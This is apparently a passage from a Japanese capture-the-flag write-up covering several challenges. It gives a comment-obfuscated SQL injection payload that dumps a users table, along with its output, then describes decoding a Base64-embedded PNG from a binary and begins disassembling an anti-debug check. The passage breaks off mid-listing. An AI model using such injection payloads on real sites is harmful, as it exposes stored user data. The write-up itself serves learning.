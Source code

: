
`'/**/and/**/0/**/union/**/select/**/group_concat(b||c,'')/**/from/**/(select/**/1/**/a,/**/2/**/b,/**/3/**/c/**/union/**/select/**/*/**/from/**/users);--` で以下のように表示されました。

```
23testtesthellohelloflag_ishereBugs_Bunny{SQLi_Easy_!!_Easy_I_Dont_Thinkso_2017!}
```

```
Bugs_Bunny{SQLi_Easy_!!_Easy_I_Dont_Thinkso_2017!}
```

## [Reverse Engineering 75] mysterious !

`rev75` という x86_64 の ELF バイナリが与えられました。`strings` に投げると以下のような文字列が見つかりました。

```
$ strings -a rev75
...
iVBORw0KGgoA
AAANSUhEUgAA
AoAAAAGQCAYA
AAA+89ElAAAA
BmJLR0QA/wD/
...
AAEIAIAABABA
AAIAIAABAAQg
AACy5v8BjDWw
a4oYZqgAAAAA
SUVORK5CYII=
...
```

`iVBORw0KGgoA` を Base64 デコードすると `'\x89PNG\r\n\x1a\n\x00'` が出てきました。どうやら PNG が Base64 エンコードされて埋め込まれているようです。集めてデコードするとフラグが得られました。

```python
import io
from PIL import Image
s = '''
...
'''.strip()
s = ''.join(s.splitlines())
with open('res.png', 'wb') as f:
  f.write(s.decode('base64'))
```

```
Bugs_Bunny{Th1s_t0t4lly_Th3_fl4g}
```

## [Reverse Engineering 100] rev100

`rev100` という x86_64 の ELF バイナリが与えられました。まず `main` を逆アセンブルしてみましょう。

```
   0x00000000004008a5 <+0>:     push   rbp
   0x00000000004008a6 <+1>:     mov    rbp,rsp
   0x00000000004008a9 <+4>:     sub    rsp,0x10
   0x00000000004008ad <+8>:     mov    esi,0x400a84
   0x00000000004008b2 <+13>:    mov    edi,0x6010c0
   0x00000000004008b7 <+18>:    call   0x400740 <_ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc@plt>
   0x00000000004008bc <+23>:    call   0x40086d <_Z13i_am_debuggedv>
   0x00000000004008c1 <+28>:    test   eax,eax
   0x00000000004008c3 <+30>:    setne  al
   0x00000000004008c6 <+33>:    test   al,al
   0x00000000004008c8 <+35>:    je     0x4008d4 <main+47>
   0x00000000004008ca <+37>:    mov    eax,0x1
```